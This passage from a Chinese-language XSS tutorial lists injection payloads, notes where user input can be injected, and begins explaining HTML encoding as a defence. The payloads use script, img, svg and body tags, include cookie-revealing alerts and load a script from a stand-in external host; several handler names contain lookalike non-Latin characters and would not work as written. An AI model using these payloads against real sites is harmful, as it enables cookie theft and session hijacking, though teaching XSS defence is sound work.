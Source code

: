   ```html
  <script>alert("hack")</script>   #弹出hack
  <script>alert(/hack/)</script>   #弹出hack
  <script>alert(1)</script>        #弹出1，对于数字可以不用引号
  <script>alert(document.cookie)</script>      #弹出cookie
  <script src=http://xxx.com/xss.js></script>  #引用外部的xss
  ```

- `<svg>`

  ```html
  <svg onload="alert(1)"></svg>
  ```

- `<img>`

  ```html
  <img  src=1  οnerrοr=alert("hack")>
  <img  src=1  οnerrοr=alert(document.cookie)>  #弹出cookie
  ```

- `<body>`

  ```html
  <body οnlοad="alert(1)">
    <body οnpageshοw="alert(1)"></body>
  </body>
  ```

- `<video>`

  ```html
  <video οnlοadstart="alert(1)" src="/media/hack-the-planet.mp4" />
  ```

- `<style>`

  ```html
  <style οnlοad="alert(1)"></style>
  ```

以上 html 标签的 `>` 都可以用 `//` 代替。

**哪些地方可能被插入 XSS ？**

- 用户输入作为 script 标签内容
- 用户输入作为 HTML 注释内容
- 用户输入作为 HTML 标签的属性名
- 用户输入作为 HTML 标签的属性值
- 用户输入作为 HTML 标签的名字
- 直接插入到 CSS 里
- 直接引入不安全的第三方 JavaScript

### 防范方法

1、html 编码

**将不可信数据放入到 HTML 标签内（例如 div、span 等）的时候进行 HTML 编码。**

编码规则：将 `&` `<` `>` `"` `'` `/` 转义为实体字符（或者十进制、十六进制）。
